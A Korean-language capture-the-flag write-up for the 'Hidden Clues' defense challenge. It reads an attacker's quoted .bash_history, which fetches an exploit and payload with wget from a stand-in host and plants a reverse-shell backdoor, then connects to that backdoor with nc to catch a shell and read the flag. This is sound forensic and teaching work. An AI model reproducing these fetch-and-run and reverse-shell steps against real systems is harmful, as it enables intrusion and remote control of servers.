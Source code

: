 # Hidden Clues

**Category:** Defense

**Points:** 50

**Author:** matta

**Description:** 

> Police and system operators of A-Server, attacked by hackers, traced the hacker's penetration route
> and succeeded in capturing the hacker's account on the attack server.
> The security vulnerabilities used in the attack is mitigated, 
> but how they're used in the exploitation is still under investigation.
> What can you find from the clues left in the hacker's account?
> 
> Download: [Hidden_Clues.zip](resource/Hidden_Clues.zip)
> 
> And, if needed, you can use a restricted shell server on **nc shellserver.sstf.site 1337**
> 
> References:
>  1) [Useful video about bash](https://www.youtube.com/watch?v=t5ZTOQg4rJs) (sorry for adv.)
>  2) [Reverse Shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

## Write-up

주어진 파일의 압축을 풀고 뭐가 들었는지 살펴보면, 대부분 사용자 계정에 기본으로 존재하는 directory이고 파일은 달랑 세개 밖에 없다.

![img](resource/find.png)

이 중 .bashrc는 사용자 환경 설정 스크립트이고, .bash_history는 사용자가 입력한 command들을 기록하고 있는 파일이다.

공격자가 뭘 했는지 궁금하니, 일단 .bash_history의 내용을 살펴보자.

```
whoami
id
pwd
wget http://hackerserver.doesnt.exist/exploit_x64
chmod +x exploit_x64
wget http://hackerserver.doesnt.exist/payload
decrypt payload > prs.py
./exploit_x64 --server hiddenclues.sstf.site --port 13579 --upload "prs.py"
./exploit_x64 --server hiddenclues.sstf.site --port 13579 --run "python prs.py" --remote_port 24680
rm -rf exploit_x64 prs.py
exit
```

인터넷에서 exploit_64라는 파일을 다운로드하고, (이름으로 보아 아마 x64에서 돌아가는 어떤 서비스에 대한 공격 코드일 것 같다.) payload 또한 다운로드 하였다.

다음으로는 payload를 prs.py로 복호화한 후, exploit을 이용해서 취약한 서비스가 돌고 있는 서버에 업로드 하고 24680 포트에서 동작하도록하여 서버에 backdoor를 만들어 둔 것으로 보인다.

backdoor라면 접속이 가능할 것이다. 해당 서버의 24680 포트에 접속해보자.

**nc hiddenclues.sstf.site 24680** 명령으로 접속을 시도해보면 password를 묻는데, 이 password를 알기 위해서는 prs.py를 복구해야만 할 것 같다.

history를 보면 공격 후에 prs.py는 삭제하였지만 실수인지 payload는 삭제되지 않은 채로 남아있다. 그러나 payload의 내용을 살펴보려고 해도 의미를 알 수 없는 깨진 것 같은 내용만 출력된다.

decrypt라는 명령에 대한 정보는 아직 없으니, 남아있는 .bashrc 파일도 한번 살펴보자.

```
alias decrypt='base64 -i -d'
```

.bashrc 파일의 alias 중에 decrypt가 있었다. 이를 이용해서 공격자가 했던대로 payload를 복호화 해보자.

![img](resource/prs.png)

공격자가 서버에 심어둔 backdoor의 내용을 확인할 수 있고, 여기에서 password도 알 수 있다.

코드를 살펴보면 password를 확인한 후에 remote server와 remote port를 입력받아 여기에 연결을 생성하고, stdin/stdout/stderr를 바인딩 한 후 "/bin/sh"을 실행하도록 되어있다.

무슨 의미인지 잘 모르겠으니, 힌트로 주어진 reverse shell의 개념에 대해서 살펴보자.

저 코드가 실행되면, 서버로부터 연결을 받아 서버에서 "/bin/sh"을 실행하는 것처럼 명령을 실행할 수 있다고 한다.

다만, 서버쪽에서 연결을 만드려면 이쪽에서 public address에 socket을 만들고 접속을 기다리고 있어야 한다.

public address를 만드려면 게이트웨이에서 port forwarding을 설정하거나 AWS 등을 이용하여 public IP를 가진 machine을 셋업해야 하는데, 다행히 사용할 수 있는 shell server가 주어져 있다. 접속해보면 진짜 nc밖에 쓸 수 있는게 없다.

~~운영진의 따뜻하고 세심한 배려를 느낄 수 있는 부분인데, 아쉽게도 활용한 사람은 많지 않은 것 같다. ㅜㅠ~~

서버의 연결을 받기 위해 shell server에서 아무 포트나 열고 대기를 시작하자.  
(나는 13131을 열었다. 해당 포트를 열 수 없다면 다른 사람이 이미 열었다는 뜻이니 다른 포트를 이용하자.)

![img](resource/wait.png)

그런 다음 backdoor에 접속하여 prs.py에 써있던 암호를 넣고, shellserver의 url과 열어둔 포트를 입력하면

![img](resource/trigger.png)

아까 열어둔 shell server에서 서버의 /bin/sh에 대한 연결을 얻을 수 있고, flag 파일의 내용을 확인할 수 있다.

![img](resource/flag.png)
